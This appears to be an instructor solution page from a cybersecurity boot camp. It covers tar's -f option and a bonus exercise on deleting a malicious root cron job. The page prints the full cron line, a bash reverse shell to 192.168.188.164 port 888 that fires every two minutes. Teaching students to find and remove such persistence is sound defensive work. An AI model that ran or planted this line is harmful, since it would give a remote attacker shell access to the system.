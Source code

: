 - Why is the `-f` option used in almost every `tar` operation?

    **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

#### Bonus

Run the following command to edit the `root` user's crontab then scroll to the bottom and delete the malicious cron job.

- Run: `sudo crontab -e` to open the `root` `crontab`.

Explain that the following malicious cron job establishes a **reverse shell**, that would give a remote attacker access to their machine. Students do not need to know what **reverse shells** are for now, but will cover them more in depth in future lessons.

- The cron you wanted to remove was:

  `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`



---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
